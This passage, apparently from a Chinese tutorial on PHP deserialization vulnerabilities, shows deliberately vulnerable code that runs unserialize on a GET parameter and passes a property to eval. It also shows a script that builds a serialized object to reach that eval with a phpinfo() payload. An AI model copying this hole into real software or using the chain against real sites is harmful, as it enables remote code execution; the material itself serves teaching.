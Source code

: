 可以看到图中所示，代码绕过了_wakeup()的执行，直接执行了_destruct()执行，向3.php中写入了xss代码实现了漏洞复现利用。

##### b. 注入对象构造方法
当代码中出现几个类中同时出现相同名字的方法时，可以试着构造一定的代码触发漏洞。例如如下代码中，都有相同的action()方法：
```php
<?php 
    class A{
        var $target;
        function __construct(){
            $this->target=new B;
        }
        function __destruct(){
            $this->target ->action();
        }
    }
    class B{
        function action(){
            echo "action B";
        }
    }
    class C{
        var $test;
        function action(){
            echo "action A";
            eval($this->test);
        }
    }
    unserialize($_GET['test']);
    
?>
```
可以看到在这个代码中，类A触发反序列化，会去执行类B的action函数，而B中并没有可以利用的函数，反之C的action中有可以利用的eval一句话木马。而unserialize只会触发_destruct()方法，在这个方法中并没有注明是谁的action函数。所以我们需要在序列化的test上下功夫。为此构造代码如下：
```php
<?php
    class A{
        function __construct(){
            $this->target = new C;
            $this->target->test="phpinfo();";
        }
        function __destruct(){
            $this->target->action();
        }
    }
    class C{
        var $test;
        function action(){
            echo "action A";
            eval($this->test);
        }
    }
    $a= serialize(new A);
    echo $a;
?>
```
这个代码中其他不变，只需将目标代码中没有触发的_construct()关键点更改为我们需要的类C的相关内容即可。    